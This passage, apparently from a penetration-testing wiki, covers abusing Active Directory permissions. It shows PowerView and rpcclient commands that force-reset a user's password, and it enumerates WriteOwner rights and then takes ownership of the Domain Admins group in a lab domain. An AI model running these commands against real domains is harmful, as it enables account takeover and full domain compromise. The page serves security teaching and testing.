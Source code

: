 ![](../../.gitbook/assets/15.png)

...or a one liner if no interactive session is not available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/16.png)

and one last way yo achieve this from linux:

```markup
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

More info:

* [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c)

### WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:

![](../../.gitbook/assets/17.png)

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/18.png)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
//You can also use the name instad of the SID (HTB: Reel)
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

![](../../.gitbook/assets/19.png)
